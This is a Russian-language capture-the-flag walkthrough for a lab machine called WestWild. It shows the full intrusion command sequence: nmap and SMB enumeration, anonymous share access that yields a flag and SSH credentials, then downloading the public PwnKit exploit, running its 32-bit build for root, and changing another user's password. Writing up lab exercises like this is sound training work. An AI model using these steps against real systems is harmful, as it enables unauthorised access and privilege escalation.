




# 🤠 WestWild

**Вектор:** SMB shares analysis ➔ PwnKit32 (LPE)
*   **OS:** 🐧 Linux (Ubuntu)
*   **Сложность:** 🟢 Легкая
*   **Инструменты:** 🧰 `arp-scan` `nmap` `netexec` `smbclient`
*   **Ключевые навыки:** 📊 Поиск чувствительных данных в smb шарах, поиск и запуск эксплоитов под старые ядра.

## 🔍 Разведка

Пентестить будем с Kali Linux, наш ip-адрес: **10.10.3.1**. Используем гипервизор VMWare. Сначала найдем цель в локальной сети:

```bash
arp-scan -I vmnet0 -l
```



Наша цель: **10.10.3.128**, так как ip-адрес **10.10.3.254** принадлежит DHCP-серверу.

## 👁️‍🗨️ Сканирование

Давайте просканируем все порты и посмотрим что у нас есть:

```bash
nmap -sS -Pn -p- 10.10.3.128
```



Хорошо, зайдём на 80 порт и посмотрим что там, но перед этим ещё можно перечислить пользователей в системе вот так:

```bash
nmap --script smb-enum-users -p 139 10.10.3.128
```



Оп! И у нас есть пользователи. Теперь можем посмотреть что у нас по вебу.

## 🌐 Веб-анализ

Смотрим что у нас на 80 порту:


Ну тут заставка, ладно. Перебор директорий ничего не дал.

## 📡 Поиск чувствительных данных

Значит посмотрим на 445 порт, пробуем анонимную сессию:

```bash
nxc smb 10.10.3.128 -u "" -p "" --shares
```


Ага, мы можем читать папку `wave`. Подключаемся и видим `FLAG1.txt`, `message_from_aveng.txt`. Давайте скачаем эти два файла. Декодируем и забираем 🚩 флаг, а также читаем сообщение:

```bash
smbclient //10.10.3.128/wave -N
get FLAG1.txt
get message_from_aveng.txt
ls
cat FLAG1.txt | base64 -d
cat message_from_aveng.txt
```


Теперь у нас есть логин и пароль юзера `Wavex`. Так, в сообщении говорится, что пользователь `Aveng` потерял свой пароль. Хорошо, берём на заметку.

## 🛠️ Постэксплуатация

Подключаемся по SSH с учётными данными `Wavex` и осматриваемся в системе:

```bash
ssh wavex@10.10.3.128
uname -r
sudo -l
id
find / -perm -u=s -type f 2>/dev/null
```


Если загуглим версию ядра, то нам покажут эксплоит `PwnKit`.

## 🌋 Эскалация привелегий

Короче, что-то эксплоит не хотел работать, пока не стало понятно в чём дело. Если вбить команду `uname -r`, то можно заметить, что архитектура ядра 32-разрядная, а не 64-разрядная. Сейчас поправим. Качаем эксплоиты с гита, перекидываем нужный через SSH (по SMB не получилось):

```bash
git clone https://github.com/ly4k/PwnKit.git
cd PwnKit
ls
scp PwnKit32 wavex@10.10.3.128:/tmp/
```



Во, теперь выдаём права на исполнение и запускаем. Переходим в папочку `/root` и забираем 🚩 флаг. А также заботливо меняем пароль для `Aveng`:

```bash
chmod +x PwnKit32
./PwnKit32
whoami
cd /root
ls
cat FLAG2.txt
passwd aveng
123
123
```


**Status:** ✅ Machine pwned.

## 📑 [Отчёт](./Report.md)